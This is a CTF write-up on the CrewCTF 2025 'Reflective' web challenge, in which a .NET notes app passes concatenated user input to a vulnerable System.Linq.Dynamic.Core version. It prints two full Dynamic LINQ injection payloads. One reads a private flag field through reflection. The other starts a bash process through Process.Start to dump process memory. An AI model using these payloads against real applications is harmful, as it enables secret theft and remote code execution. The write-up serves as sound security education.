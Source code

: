 ```yaml
---
title: "CrewCTF 2025 – Reflective (Web)"
date: 2025-09-22 23:30:00 +0300
categories: [CTF, Web]
tags: [CrewCTF, .NET, Reflection, DynamicLINQ, RCE, Writeup]
description: "Writeup for Reflective (Web) challenge from CrewCTF 2025 where I discussed two unintended solutions."
---
```


## TL;DR

The app had two critical issues: the `/Notes` search built a Dynamic-LINQ query by concatenating user input (`"Title.Contains(\"" + title + "\")"`) while using a vulnerable `System.Linq.Dynamic.Core v1.2.25`, which allowed injected expressions to use .NET reflection — letting an attacker traverse assemblies, read the private static `_flag` field from `BookKeeper.NotesManager`, and `Invoke` `set_Title` on a note so the flag appears in the UI; and the package also exposed an RCE vector via Dynamic-LINQ which could be used to start a process (e.g., run `dotnet-dump collect -p 1 -o dump --type Full`) and dump the .NET process memory to grep the flag.

---

**Challenge:** [Reflective](https://2025.crewc.tf/challenges#Reflective-14)<br>**Author:** [Instellate](https://instellate.xyz/)<br>**Solves**: 23

Greetings!

I participated in CrewCTF this year, one of the most challenging yet enjoyable CTFs I've done. This particular challenge offered multiple possible attack paths, but it remained one of the toughest on the board, with only 23 teams managing to solve it.

---

## Opening the Box

First thing I always do is check the Dockerfile. This challenge looked like a .NET 9 (ASP.NET Core) web app — it exposed port **8080** and ran on `mcr.microsoft.com/dotnet/aspnet:9.0`. I don’t know .NET that well, so rather than read every line of code, I spun up an instance to see how it behaved.

Two endpoints stood out quickly:

- `/Notes` — lists all notes and supports searching.
- `/Notes/create` — a simple form to create notes.

Naturally I wanted to see what drove those endpoints, so I hunted down `NotesManager.cs`. That’s where things started to get interesting.

---

## Peeking Inside the .NET Project

This code snippet is from `NotesManager.cs` file:

```csharp
public IEnumerable<Note> GetLatestNotes(string title, int page = 0)
{
    string query = "Title.Contains(\"" + title + "\")";

    return this._notes
        .AsQueryable()
        .OrderByDescending(n => n.CreatedAt)
        .Where(query)
        .Skip(page * 10)
        .Take(10);
}
```

That’s straight-up string concatenation of user input — a red flag. It turned out the `.Where(query)` uses **Dynamic LINQ**, which parses and compiles user-supplied expressions. I’d never used it before, so I went to learn how it works and which version the app used.

`Reflective.csproj` showed:

```xml
<PackageReference Include="System.Linq.Dynamic.Core" Version="1.2.25" />
```

That version is ancient compared to the current `1.6.x` line, and the [NuGet page](https://www.nuget.org/packages/System.Linq.Dynamic.Core/1.2.25) flagged vulnerabilities. Two stood out:

1. **Remote Code Execution** via Dynamic LINQ (critical). [here](https://github.com/advisories/GHSA-w65q-jcmv-28gj)
2. **Property reflection** allowing access to reflection types and static properties/fields (high). [here](https://github.com/advisories/GHSA-4cv2-4hjh-77rx)


The second one fit the challenge’s name — *Reflective* — so I dug into it. The advisory noted that versions before `1.6.0` allowed remote access to reflection types and static properties/fields from within injected expressions. That sounded promising, but I couldn’t immediately craft a working payload. Thankfully my teammate **phisher305** cracked it and shared the payload after the CTF ended — huge thanks to him. I’ve broken it down below.

---

## How the Payload Works

Here’s the payload we used:

```
") and true && it.GetType().Assembly.DefinedTypes.Where(t=>t.FullName=="Reflective.Note").First().DeclaredMethods.Where(m=>m.Name=="set_Title").First().Invoke(
 it,
 new System.Object[]{
   (
     ("").GetType().Assembly
       .DefinedTypes.Where(t=>t.FullName=="System.Reflection.Assembly").First()
       .DeclaredMethods.Where(m=>m.Name=="CreateInstance").First()
       .Invoke(
         ("").GetType().Assembly
           .DefinedTypes.Where(t=>t.FullName=="System.Array").First()
           .DeclaredMethods.Where(m=>m.Name=="GetValue").First()
           .Invoke(
             ("").GetType().Assembly
               .DefinedTypes.Where(t=>t.FullName=="System.AppDomain").First()
               .DeclaredMethods.Where(m=>m.Name=="GetAssemblies").First()
               .Invoke(
                 ("").GetType().Assembly
                   .DefinedTypes.Where(t=>t.FullName=="System.AppDomain").First()
                   .DeclaredProperties.Where(p=>p.Name=="CurrentDomain").First()
                   .GetValue(null),
                 new System.Object[]{}
               ),
             new System.Object[]{ new [] { 97 } }
           ),
         new System.Object[]{ "BookKeeper.NotesManager" }
       )
   ).GetType().Assembly
     .DefinedTypes.Where(tt=>tt.Name=="NotesManager").First()
     .DeclaredFields.Where(f=>f.Name=="_flag").First()
     .GetValue(null).ToString()
 }
)==null and Title.StartsWith("
```

Breakdown:

- **Injection entry:** The payload first closes the expected expression and injects a new Dynamic-LINQ expression (`) and true && ...`) so the attacker controls the whole `Where(...)` string — classic injection.
- **`it` is the pivot:** Inside the `Where` predicate, `it` refers to the current `Note` object. The payload starts reflection traversal from `it` (e.g. `it.GetType().Assembly.DefinedTypes`) as an entrypoint to the process’s types.
- **Bootstrapping reflection with `""`:** The `("").GetType().Assembly` trick obtains a `System.Type` (string’s type) and its `Assembly` without `typeof(...)` or hardcoded names, giving access to reflection APIs (`DefinedTypes`, `DeclaredMethods`, `DeclaredFields`, etc.).
- **Find the target assembly:** It calls `AppDomain.CurrentDomain.GetAssemblies()` and picks an assembly using `Array.GetValue(...)` with an index (your payload used `new [] { 97 }`). The index is used because the right assembly isn’t known reliably; on that instance index 97 points to the challenge assembly.
- **Create instance of target manager:** With that `Assembly`, the payload calls `Assembly.CreateInstance("BookKeeper.NotesManager")` to obtain a `NotesManager` object from the target code — the pivot to reach the `_flag`.
- **Read the `_flag` via reflection:** From the `NotesManager` type/instance it enumerates `DeclaredFields`, finds the `_flag` static field, and calls `GetValue(null)` (null because it’s static) to retrieve the flag string, then `.ToString()`.
- **Plant the flag into the UI:** The payload then finds and invokes `set_Title` on the current `it` (`Invoke(it, new object[]{ <flagString> })`), setting the note’s `Title` to the flag so the app will display it.
- **Keep the predicate valid:** Finally it appends a boolean expression (e.g. `Title.StartsWith("...")`) so the `Where(...)` remains a valid predicate and the modified row is returned/rendered. In short: read the flag by reflection, write it into a visible `Note` field, and return a row so the UI shows the flag.

```
crew{dotnet_reflection_is_weird_is_it_not__why_do_i_care}
```

---

## Another Unintended Route

From the CrewCTF Discord I learned other unintended solutions relying on the same vulnerabilities mentioned earlier.

One neat approach (shoutout to **siunam321**) used a Dynamic-LINQ injection to achieve RCE, then invoked `dotnet-dump` from the container to dump the .NET process memory (PID 1) and grep the flag from the memory dump. The payload essentially kicked off a shell/Process start that ran `dotnet-dump collect -p 1 -o dump --type Full`. Once the dump finished, they inspected it and found the flag in plaintext.

 ```
 ") && "".GetType().Assembly.DefinedTypes.Where(it.Name == "AppDomain").First().DeclaredMethods.Where(it.Name == "CreateInstanceAndUnwrap").First().Invoke("".GetType().Assembly.DefinedTypes.Where(it.Name == "AppDomain").First().DeclaredProperties.Where(it.name == "CurrentDomain").First().GetValue(null), "System, Version = 4.0.0.0, Culture = neutral, PublicKeyToken = b77a5c561934e089; System.Diagnostics.Process".Split(";".ToCharArray())).GetType().Assembly.DefinedTypes.Where(it.Name == "Process").First().DeclaredMethods.Where(it.name == "Start").Take(3).Last().Invoke(null, "/bin/bash;-c \"./dotnet-dump collect -p 1 -o dump --type Full"".Split(";".ToCharArray())).GetType().ToString() == ("
 ```

This route leaned on an RCE path for the library (CVE-style PoC) rather than the reflection-only path we used to write the flag directly into a `Note` title. Both are valid — just different flavors of exploitation.

---

## Final Thoughts

This challenge was an absolute blast. It introduced me to Dynamic LINQ and a weird corner of .NET reflection I hadn’t seen before. The combination of reflection APIs, an old vulnerable library, and a tiny UI surface made for a satisfying puzzle: once you spot the injection point, the rest is creative traversal and a bit of trial-and-error.

Big thanks to my teammate **phisher305** for the payload and to everyone in the discord who discussed alternate approaches. I learned a ton and can’t wait to play with these ideas further.

I still haven’t managed to get the intended solution in a way I can write about properly — hopefully I’ll be able to later.

Thanks for reading!